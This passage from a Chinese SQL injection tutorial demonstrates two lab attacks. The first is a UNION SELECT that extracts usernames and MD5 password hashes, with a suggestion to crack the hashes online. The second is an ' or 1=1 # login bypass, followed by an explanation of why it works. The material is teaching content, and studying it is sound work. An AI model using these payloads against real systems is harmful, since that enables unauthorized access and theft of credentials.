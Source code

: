 ```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;


```

![](http://upload-images.jianshu.io/upload_images/6230889-c251e699ff9a9396.png)

可以看到成功爆出用户名、密码，密码采用 md5 进行加密，可以到`www.cmd5.com`进行解密。  
直此，同学们应该已经对 Sql 注入有了一个大概得了解，也清楚了 Sql 注入的强大。

### 4.3 Sql 注入实例二. 验证绕过

接下来我们再试试另一个利用 **Sql 漏洞绕过登录验证**的实例。  
使用事先编写好的页面，这是一个普通的登录页面，只要输入正确的用户名和密码就能登录成功。

![](http://upload-images.jianshu.io/upload_images/6230889-f28e32057ec5a979.png)

我们先尝试随意输入用户名 123 和密码 123 登录：

![](http://upload-images.jianshu.io/upload_images/6230889-8b4414ab9fe44cc2.png)

从错误页面中我们无法获取到任何信息。  
看看后台代码如何做验证的：

![](http://upload-images.jianshu.io/upload_images/6230889-156009a2bc7e79d1.png)

s

实际执行的操作时：

```
select * from users where username='123' and password='123'


```

当查询到数据表中存在同时满足 username 和 password 字段时，会返回登录成功。  
按照第一个实例的思路，我们尝试在用户名中输入 `123' or 1=1 #`, 密码同样输入 `123' or 1=1 #` ：

![](http://upload-images.jianshu.io/upload_images/6230889-f9bfece283965162.png)

![](http://upload-images.jianshu.io/upload_images/6230889-c1be76d1c05814fd.png)

为什么能够成功登陆呢？因为实际执行的语句是：

```
select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'


```

按照 Mysql 语法，# 后面的内容会被忽略，所以以上语句等同于（实际上密码框里不输入任何东西也一样）：

```
select * from users where username='123' or 1=1 


```
